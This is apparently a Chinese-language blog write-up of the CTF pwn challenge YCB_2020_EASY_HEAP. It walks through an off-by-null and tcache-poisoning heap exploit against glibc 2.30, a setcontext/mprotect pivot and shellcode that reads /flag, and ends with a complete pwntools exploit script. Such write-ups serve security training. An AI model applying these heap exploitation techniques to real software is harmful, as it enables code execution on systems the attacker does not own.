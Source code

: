 ```yaml
---
title: YCB_2020_EASY_HEAP writeup
tags: []
id: '308'
categories:
  - - 笔记
abbrlink: ed22203c
date: 2022-08-11 02:39:09
---
```


## 一、分析

首先查看题目保护：Full Relro，Canary found，NX enabled，PIE enabled

通过IDA查看main函数，程序主体就是一个简单的switch菜单，在while循环之前通过prctl开启了沙箱。使用seccomp-tools可以看到沙箱禁止了execve系统调用，无法使用system('/bin/sh')。因此可能需要通过构造ROP链达到orw读取flag文件。

接着看菜单内部：无法指定新增指针的index，但是此处有个小逻辑：若该index处储存的指针为空，则向这个index处存放下一个申请的指针。但是index指针为什么会空呢，因为在free的时候会将对应指针置空。这么一看似乎把UAF的路给堵死了。但是参考了大佬的方法以后发现，因为malloc以后不会改变chunk中的内容，所以我们可以先free，再malloc，之后就能获取到fd和bk了。

在新增的时候，没有限制chunk的大小，因此这里可以自由使用各种bin attack来进行攻击。其次，存在一个比较明显的off-by-null漏洞，在之后需要利用。

## 二、思路

由于保护全开，所以第一步必须得获取到libc的基地址。这里可以使用unsorted bin leak来进行获取。首先构造一个足够大的chunk，使其在free的时候直接进入unsorted bin而不是tcache bin。接着构造一个小chunk，使其在被free的时候不会合并到top chunk中。然后将chunk 0 free掉，再malloc同样大小的chunk获取到它的指针。接着通过show操作就可以读出fd（即main\_arena附近）的地址了。由于该地址和libc\_base的相对位置是固定的，因此可以通过gdb查看以后直接通过偏移量得到libc\_base。

接着需要得到heap\_base，来构造后面的ROP chain。利用刚刚的chunk 1，再加一个chunk 2，再新建一个chunk 3防止合并，然后将chunk 1和chunk 2依次合并。重新分配一个空间，这个时候由于LIFO，index 1会得到chunk 2的地址。而chunk 2的FD也就是tcache\_next，即chunk 1的地址。根据这个地址和heap\_base的偏移量（固定值）可以算出heap\_base的值。

接着需要利用tcache poisoning实现任意地址写。但是这个技术（参考how2heap中的[示例](https://github.com/shellphish/how2heap/blob/master/glibc_2.27/tcache_poisoning.c)）最好需要有可利用的指针。而本题会对free的chunk进行指针的清空。所以绕个圈子：通过off-by-null实现前向unlink，使得fake chunk被合并，再malloc就会得到这个fake chunk的指针。而这个指针可以在原本的大chunk被free的时候保留下来，从而修改已经被free的大chunk中的内容。

利用刚刚的chunk 1和chunk 2，构造一个fake chunk，然后将chunk 3进行free，令其与fake chunk进行合并，再申请一块内存空间，得到fake chunk的指针。

接着，将**事先准备好的**chunk 5 free掉，然后再free chunk 1。通过chunk 3的指针对tcache\_next进行修改，令其为free\_hook的地址。然后将chunk 1和chunk 5申请回来。此时chunk 5的指针指向free\_hook的地址。对chunk 5（free\_hook）进行修改，令其指向我们需要的gadget。我们需要通过这个gadget来调用setcontext达到修改寄存器的目的，所以找到了这个：

```
# 0x00000000001547a0 : mov rdx, qword ptr [rdi + 8] ; mov qword ptr [rsp], rax ; call qword ptr [rdx + 0x20]
```

它可以将\[rdi + 8\]处的值赋给rdx，并且call \[rdx + 0x20\]。而在free\_hook运行到gadget的时候，这个rdi恰好是free的指针。所以我们构造chunk 0+8的位置写上chunk 0的地址，chunk 0+20的位置写上setcontext+61的地址。

setcontext会将rdx加上一系列的偏移的地址中的值放到各个寄存器中，包括rsp。所以可以在chunk 0中对应偏移的位置写入对应的值。具体可以见exp中最后一段edit(0)中的注释。接着setcontext函数返回，调用栈进入我在栈中构造的SYS\_mprotect函数，并且已经通过寄存器构造好了相应的参数，使得堆中出现了一块可写的空间。

接着就可以继续通过ret调用堆上写好的shellcode了。由于这里不能用execve，我直接使用shellcraft自带的cat获取/flag。如果不能使用mprotect修改堆的可执行权限，这里也可以通过构造rop链来执行orw。

## 三、exp

```
from pwn import *

context.log_level = "debug"
context.terminal = "kitty"
context.arch = 'amd64'
debug = True

if debug:
    sh = process("./pwn")
    libc = ELF("/home/lqz/pwn/glibc-all-in-one/libs/2.30-0ubuntu2_amd64/libc-2.30.so")
else:
    libc = ELF("/home/lqz/pwn/glibc-all-in-one/libs/2.30-0ubuntu2_amd64/libc-2.30.so")
    ip = "node4.buuoj.cn"
    port = 25335
    sh = remote(ip, port)


def menu(num):
    sh.sendlineafter(b"Choice:", str(num).encode())


def add(size):
    menu(1)
    sh.sendlineafter(b"Size: ", str(size).encode())
    sh.recvline_contains(b"Done!", timeout=0)


def edit(index, content):
    menu(2)
    sh.sendlineafter(b"Index: ", str(index).encode())
    sh.sendafter(b"Content: \n", content)
    sh.recvline_contains(b"Done!", timeout=0)


def dele(index):
    menu(3)
    sh.sendlineafter(b"Index: ", str(index).encode())
    sh.recvline_contains(b"Done!", timeout=0)


def show(index):
    menu(4)
    sh.sendlineafter(b"Index: ", str(index).encode())
    # sh.recvline_contains(b"Don not exist!", timeout=0)
    # Remember to receive Content: and [+]Done!


# Leak Heap
add(0x40F)  # 0
add(0x20)  # 1
add(0x20)  # 2
add(0x4F0)  # 3
add(0x10)  # 4
add(0x20)  # 5
dele(0)
add(0x40F)  # 0
show(0)
sh.recvuntil(b"Content: ")
main_arena = int.from_bytes(sh.recv(0x6), "little")
success("leak_addr(main_arena): " + hex(main_arena))
libc_base = main_arena - 0x70 - libc.sym["__malloc_hook"]
libc.address = libc_base
success("libc_base: " + hex(libc_base))
sh.recvuntil(b"[+]Done!\n")

# gdb.attach(sh)

dele(1)
dele(2)
add(0x28)  # 1
show(1)
sh.recvuntil(b"Content: ")
heap_base = int.from_bytes(sh.recv(0x6), "little") & 0xFFFFFFFFF000
success("heap_base: " + hex(heap_base))
sh.recvuntil(b"[+]Done!\n")
# gdb.attach(sh)

add(0x28)  # 2
edit(1, p64(heap_base+0x6c0)+0x18*b'a'+p64(0x50))
# 0->2->1->3->xxx chunks
edit(2, p64(0)+p64(0x51)+p64(heap_base+0x6f0-0x18)+p64(heap_base+0x6f0-0x10))

# gdb.attach(sh)

dele(3)
add(0x100) # 3
edit(3, flat({0x18:0x31}))

# gdb.attach(sh)

dele(5)
# gdb.attach(sh)
dele(1)
# gdb.attach(sh)

edit(3, flat({0x18:[
    0x31, p64(libc.sym['__free_hook'])[:7]
    ]}))
success("free_hook: "+hex(libc.sym['__free_hook']))
# gdb.attach(sh)
add(0x20) # 1 
add(0x20) # 5 
# 0x00000000001547a0 : mov rdx, qword ptr [rdi + 8] ; mov qword ptr [rsp], rax ; call qword ptr [rdx + 0x20]
edit(5, p64(libc_base + 0x0000000000154b90))

# gdb.attach(sh)
start_addr = heap_base + 0x2a0
edit(0, flat({
    0: start_addr + 0x100,
    0x8:start_addr,
    0x20: libc.sym['setcontext']+61, # gadget 2
    0xa0: start_addr, # rsp
    0xa8: libc.sym.mprotect, # rcx
    0x68: start_addr & ~0xfff, #rdi / SYS_mprotect_addr
    0x70: 0x4000, # rsi / SYS_mprotect_len
    0x88: 7, # rdx / SYS_mprotect_prot
    0x100: asm(shellcraft.amd64.linux.cat('/flag')),
    }, filler='\x00'))

gdb.attach(sh)

dele(0)


sh.interactive()
```
